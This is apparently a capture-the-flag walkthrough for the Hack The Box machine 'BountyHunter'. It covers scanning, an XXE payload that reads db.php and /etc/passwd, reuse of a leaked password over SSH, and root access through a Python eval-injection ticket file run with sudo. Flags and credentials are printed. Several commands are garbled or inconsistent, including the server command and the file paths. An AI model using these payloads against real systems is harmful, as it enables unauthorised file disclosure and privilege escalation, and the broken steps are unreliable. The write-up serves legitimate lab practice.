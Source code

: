 
#Room name BountyHunter 

	#nmap scan
```
# Nmap 7.91 scan initiated Thu Aug 26 17:54:15 2021 as: nmap -sC -sV -oN nmap.cap 10.10.11.100
Nmap scan report for 10.10.11.100
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 26 17:55:07 2021 -- 1 IP address (1 host up) scanned in 51.86 seconds

```
	
	#Gobuster results
```
/index.php            (Status: 200) [Size: 25169]
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```


	#We found tasks on 'http://10.10.11.100/resources/README.txt'

```
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions

```

	#We found some interesting Directory 
```
http://10.10.11.100/log_submit.php
```


	#After capturing the request we find that here is xml XXE entity 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=db.php"> ]>
```
	#In the first field use
```
&xxe;
```
	#We grab the db.php file having this information
```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
```
![Image](https://raw.githubusercontent.com/sigwotts/HTB-Walkthrough/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.36%20AM.png)



#But we tried using ssh it didn't worked, then we use to see the /etc/passwd file


	#First we have to encode this to url encoding then to base64
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd"> ]>

		<bugreport>
		<title>&xxe;</title>
		<cwe></cwe>
		<cvss></cvss>
		<reward></reward>
		</bugreport>
```


	# By enocoding this to enoding url then to base64 and after replacing the request in the burpsuite, we get
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

``` 
![Image](https://github.com/sigwotts/HTB-Walkthrough/blob/main/bounty-hunter/Screenshot%202021-09-08%20at%203.56.21%20AM.png)

	#Here we got the creds 
```
development:m19RoAU0hP41A1sTsq6K
```
#Boom we sucessfully login to the machine via ssh


	#Here we got the user flag
```
e83009fb0ded5f74b50aa794e0562246
```

	#Then we use 
```
sudo -l
```
```
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

```

#Now we can exploit by creating a file named as sig.md 
```
# Skytrain Inc   
## Ticket to root  
__Ticket Code:__  
**102 + 10 == 112 and __import__('os').system('/bin/bash') == False
``
	#Then start a python server on your machine
```
http -m python.server 1234
```

#Then upload this file in the /opt directory by using the cmd
```
wget http://10.10.14.157:1234/sig.md
```
	#Then we give permission to the file by 
```
chmod 777 sig.md
```

	#then run the tickerValidator.py
```
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

	#specify the ticket path to
```
/tmp/sig.md
```
#BOOOOOOOOOOOOOOOOOOOMMMM!!!!!!!!!!!  WE ARE ROOT


	#Now you can get the flag
```
cat /root/root.txt
``
	#Here is the flag
```
0cc723be65032a28eadcc712c03defd5
```





